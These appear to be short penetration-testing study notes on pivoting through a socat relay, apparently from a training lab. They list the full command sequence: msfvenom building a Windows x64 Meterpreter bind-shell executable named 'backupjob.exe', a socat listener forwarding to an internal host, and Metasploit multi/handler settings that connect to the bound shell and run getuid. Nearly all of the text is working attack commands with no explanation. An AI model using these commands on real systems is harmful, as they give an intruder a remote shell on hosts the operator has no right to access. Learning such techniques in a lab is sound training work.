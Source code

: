 
![[Pasted image 20250626170602.png]]

**Creating a bind shell (attack host)
```shell-session
msfvenom -p windows/x64/meterpreter/bind_tcp -f exe -o backupjob.exe LPORT=8443
```

**Starting Socat Bind Shell Listener (on pivot host)
```shell-session
socat TCP4-LISTEN:8080,fork TCP4:172.16.5.19:8443
```

**Create Bind multi/handler (attack host)
```shell-session
use exploit/multi/handler
```
```shell-session
set payload windows/x64/meterpreter/bind_tcp
```
```shell-session
set RHOST 10.129.202.64
```
```shell-session
set LPORT 8080
```
```shell-session
run
```
```shell-session
getuid
```


